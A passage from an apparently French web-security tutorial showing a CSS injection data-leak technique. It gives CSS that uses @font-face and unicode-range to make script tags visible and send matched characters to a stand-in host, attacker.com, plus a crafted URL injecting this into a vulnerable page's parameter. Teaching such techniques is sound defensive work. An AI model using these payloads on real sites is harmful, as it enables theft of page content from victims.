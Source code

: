 {% code overflow="wrap" lineNumbers="true" %}
```css
script {
  display: block;
}
```
{% endcode %}

Cela a pour effet de faire apparaitre le contenu de la balise et ainsi déclencher la règle CSS `@font-face` (la victime pourra également voir le contenu pendant l'exploitation) :&#x20;

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Le code CSS complet est le suivant :&#x20;

```html
<style>
  @font-face {
    // Nom de la police d'écriture (arbitraire)
    font-family: attack;
    
    // URL du serveur de l'attaquant
    // Permet de savoir quel caractère a été récupéré
    src: url(https://attacker.com/?leak=a); 
    
    // Test de la présence du caractère spécifié en unicode
    unicode-range: U+0061;
  }
  
  // S'applique pour les balises script
  script {
    // Permet d'afficher son contenu
    diplay:block;
    // Applique la police d'écriture
    font-family: attack;
  }
</style>
```

Le lien malicieux permettant l'exploitation avec la nouvelle instruction CSS devient :&#x20;

<pre data-overflow="wrap"><code><strong>https://vulnerable.com/font-face-et-descripteur-unicode-script.php?color=red;}@font-face{font-family:attack;src:url(https://attacker.com/?leak=s);unicode-range:U%2b0073;}script{display:block;font-family:attack;}
</strong></code></pre>

{% hint style="warning" %}
Attention à bien encoder le caractère "+" par son équivalent URL encodée "%2b".
{% endhint %}
